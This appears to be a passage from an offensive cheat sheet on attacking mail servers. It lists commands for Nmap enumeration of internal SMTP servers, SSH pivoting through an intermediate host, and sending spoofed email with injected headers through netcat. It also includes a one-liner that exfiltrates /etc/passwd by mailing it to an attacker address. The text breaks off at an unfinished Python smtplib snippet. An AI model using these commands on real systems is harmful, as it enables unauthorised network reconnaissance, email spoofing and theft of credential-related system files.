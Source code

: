 ### Internal Reconnaissance

#### Identifying Internal Mail Servers

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <internal_ip_range> -p 25,587 -sV --script=smtp-commands
    ```
* **Description:** Scans the internal network to identify and enumerate SMTP servers and their configurations.

### Lateral Movement, Pivoting, and Tunnelling

#### SMTP Pivoting

*   **Tool:** \[\[SSH]], \[\[NetCat]]

    ```bash
    ssh -L 587:<target_ip>:25 <intermediate_host>
    ```
* **Description:** Uses an intermediate host to pivot through SMTP services for lateral movement within the network.

### Defense Evasion

#### Obfuscating SMTP Headers

*   **Tool:** \[\[Custom Scripts]], \[\[Email Clients]]

    ```bash
    echo -e "EHLO example.com\nMAIL FROM:<spoofed@example.com>\nRCPT TO:<victim@example.com>\nDATA\nSubject: Test\nX-Header: Obfuscated\n.\nQUIT" | nc <target_ip> 25
    ```
* **Description:** Injects custom headers into emails to evade detection by security mechanisms.

### Data Exfiltration

#### Exfiltrating Data via SMTP

*   **Tool:**\[\[ Custom Scripts]], \[\[NetCat]]

    ```bash
    echo -e "EHLO example.com\nMAIL FROM:<attacker@example.com>\nRCPT TO:<attacker@example.com>\nDATA\nSubject: Exfiltration\n\n$(cat /etc/passwd)\n.\nQUIT" | nc <target_ip> 25
    ```

\


*   **Tool:** \[\[Custom Scripts]],

    ```bash
    import smtplib
    from email.mime.text import MIMEText
